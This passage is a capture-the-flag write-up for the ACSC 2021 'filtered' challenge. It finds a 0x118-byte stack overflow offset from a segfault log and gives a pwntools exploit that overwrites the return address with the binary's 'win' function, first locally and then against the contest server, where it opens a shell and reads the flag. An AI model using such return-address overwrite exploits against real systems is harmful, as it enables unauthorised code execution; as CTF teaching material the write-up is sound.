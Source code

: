 When I put 0x119 we can see it overflow the first byte of return pointer (61), can check it with `dmesg | grep filtered`:
```bash
dmesg | grep filtered
[ 8124.891776] filtered[2910]: segfault at 7fc3a0630061 ip 00007fc3a0630061 sp 00007ffd425a18a0 error 15 in libc-2.31.so[7fc3a0612000+25000]
```
Therefore the offset is `0x118`

Write a simple exploit using Pwntools:
```py
from pwn import *
elf = ELF("./filtered")
p = elf.process()
win = elf.symbols['win']
p.sendlineafter("Size: ",b'-1')
p.sendlineafter("Data: ",b'a'*0x118+p64(win))
p.interactive()
```
Can see it works!
```py
 python3 solve.py
[*] '/home/hong/hong5489.github.io/uploads/acsc2021/filtered'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Starting local process '/home/hong/hong5489.github.io/uploads/acsc2021/filtered': pid 2798
[*] Switching to interactive mode
Bye!
$ ls
filtered  filtered.c  image1.png  image2.png  solve.py
$
```
Try it in the real server:
```py
from pwn import *
elf = ELF("./filtered")
# p = elf.process()
p = remote('filtered.chal.acsc.asia' ,9001)
win = elf.symbols['win']
p.sendlineafter("Size: ",b'-1')
p.sendlineafter("Data: ",b'a'*0x118+p64(win))
p.interactive()
```
It works like charm!!
```bash
python3 solve.py
[*] '/home/hong/hong5489.github.io/uploads/acsc2021/filtered'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Opening connection to filtered.chal.acsc.asia on port 9001: Done
[*] Switching to interactive mode
Bye!
$ ls
filtered
flag-08d995360bfb36072f5b6aedcc801cd7.txt
$ cat flag-08d995360bfb36072f5b6aedcc801cd7.txt
ACSC{GCC_d1dn'7_sh0w_w4rn1ng_f0r_1mpl1c17_7yp3_c0nv3rs10n}
$
```
[Full python script](/uploads/acsc2021/solve.py)